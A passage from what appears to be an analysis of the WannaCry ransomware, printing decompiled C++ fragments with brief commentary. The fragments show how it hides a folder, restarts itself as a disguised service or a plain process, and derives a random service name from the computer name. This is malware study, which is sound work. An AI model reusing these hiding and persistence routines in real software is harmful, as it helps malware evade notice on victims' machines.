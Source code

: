 ```C++
  {
    result = 0;
  }
  return result;
}
```

The above is the CreateFolder code, it is easy to understand, mainly through the creation of this function Folder set Hidden property.

**Restart Again**

```C++
BOOL StartMalware()
{
  char szFullPath[520];

  szFullPath[0] = szSelfName;
  memset(&szFullPath[1], 0, 516u);
  *&szFullPath[517] = 0;
  szFullPath[519] = 0;
  GetFullPathNameA(FileName, 520u, szFullPath, 0);
  return StartService(szFullPath) && WaitMutex4Times(60) || StartProcess(szFullPath, 0, 0) && WaitMutex4Times(60);
}
```

Note that the last line of code, Wannacry will use two kinds of ways to start their own, first try to disguise themselves as a service program, if the failure, try the general process of the way.

*service method*

When starting with a service, Wannacry first takes advantage of a random sequence that is initialized in WinMain as the service name. Here is the code that generates the random sequence:

```C++
int __cdecl CreateRandomSequence(char *displayname)
{
  unsigned int nSeed; 
  int pBuffer; 
  size_t nLen; 
  int index;
  int v5;
  int v6; 
  int result; 
  __int16 Buffer[200]; 
  DWORD nSize; 
  unsigned int i; 

  Buffer[0] = g_ComputerName;
  nSize = 399;
  memset(&Buffer[1], 0, 396u);
  Buffer[199] = 0;
  GetComputerNameW(Buffer, &nSize);
  i = 0;
  nSeed = 1;
  if ( wcslen(Buffer) )
  {
    pBuffer = Buffer;
    do
    {
      nSeed *= *pBuffer;
      ++i;
      pBuffer += 2;
      nLen = wcslen(Buffer);
    }
    while ( i < nLen );
```